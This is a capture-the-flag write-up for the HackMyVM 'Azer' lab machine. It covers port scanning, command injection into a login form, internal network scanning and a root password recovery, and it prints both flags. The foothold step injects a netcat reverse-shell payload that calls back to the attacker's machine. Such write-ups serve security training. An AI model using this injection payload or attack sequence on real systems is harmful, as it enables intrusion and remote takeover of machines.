

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">Azer</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.120</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Azer** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We start by running a full TCP port scan using Nmap:

```bash
nmap -p- -sC -sV 192.168.56.120
```

#### Open Ports:
```text
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
3000/tcp open  http    Node.js (Express middleware)
```

### 2. Service Enumeration (Port 80 & 3000)
* **Port 80**: Running Apache serving a static page. Directory brute-forcing returns no valuable results.
* **Port 3000**: Running a Node.js/Express app presenting a login form.

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Analyzing Port 3000 Login Application
We submit test inputs (e.g. `a:a`) into the login form. The server returns a verbose error message indicating it executes a backend bash script on submission:

```text
Error executing bash script: Command failed: /home/azer/get.sh a a fatal: not a git repository (or any of the parent directories): .git
```

This indicates the server accepts our inputs and passes them as arguments to a bash script: `/home/azer/get.sh <username> <password>`.

### 2. Exploiting Command Injection
Since the inputs are processed without sanitization, we can inject bash command delimiters (like `;` or `|`) to execute arbitrary shell commands. 

We submit the following payload in the login fields to trigger a reverse shell back to our listener on port 9999:

```bash
; nc 192.168.56.102 9999 -e /bin/bash
```

On our local machine, we catch the connection:
```text
Connection received on 192.168.56.120
id
uid=1000(azer) gid=1000(azer) groups=1000(azer)
```

We retrieve the user flag:
```bash
cat /home/azer/user.txt
```
Output: `0d2856d69dc348b3af80a0eed67c7502`

---

## ⚡ Phase 3: Intranet Enumeration & Privilege Escalation

### 1. Docker Environment Discovery
After executing a local enumeration scan with PEASS-ng, we discover that the machine has Docker installed and running active container networks:

```text
╔══════════╣ Interfaces
br-333bcb432cd5: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.1  netmask 255.255.255.0  broadcast 10.10.10.255
docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
```

Due to permission limits, we cannot run `docker ps` to list active containers directly. However, we know they are attached to the `10.10.10.1/24` network subnet.

### 2. Intranet Scan with fscan
To map services running on the internal Docker network, we upload and execute `fscan` targeting the `10.10.10.1/24` network range:

```bash
./fscan -np -h 10.10.10.1/24
```

```text
   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
10.10.10.10:80 open
10.10.10.1:80 open
10.10.10.1:3000 open
```

We discover an internal HTTP service running inside a container at IP `10.10.10.10` on port 80.

### 3. Extracting Password and Root Shell
We query the internal HTTP service using curl:

```bash
curl http://10.10.10.10:80
```

```text
.:.AzerBulbul.:.
```

The output reveals a string: `.:.AzerBulbul.:.`. We attempt to use this string as the password to switch to the `root` user:

```bash
su root
```
Password: `.:.AzerBulbul.:.`

```text
root@azer:/home/azer# whoami
root
```

We successfully obtain root access and retrieve the root flag:
```bash
cat /root/root.txt
```
Output: `b5d96aec2d5f1541c5e7910ccab527d8`
